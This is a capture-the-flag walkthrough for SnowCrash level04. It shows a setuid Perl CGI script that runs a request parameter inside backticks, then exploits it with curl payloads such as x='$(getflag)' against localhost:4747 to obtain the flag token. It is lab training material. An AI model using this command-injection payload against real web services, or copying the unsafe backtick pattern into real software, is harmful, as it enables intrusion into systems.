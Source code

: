 # level04

As always:
```
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

Hmm.. a perl file:
```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

We sees that we can exploit the second argument like:
```
level04@SnowCrash:~$ perl level04.pl x="$(whoami)"
Content-type: text/html

level04
```

Let's try to did it on the localhost:4747 !
```
level04@SnowCrash:~$ curl localhost:4747?x='$(whoami)'
flag04
```
Good, now let's get the flag:
```
level04@SnowCrash:~$ curl localhost:4747?x='$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

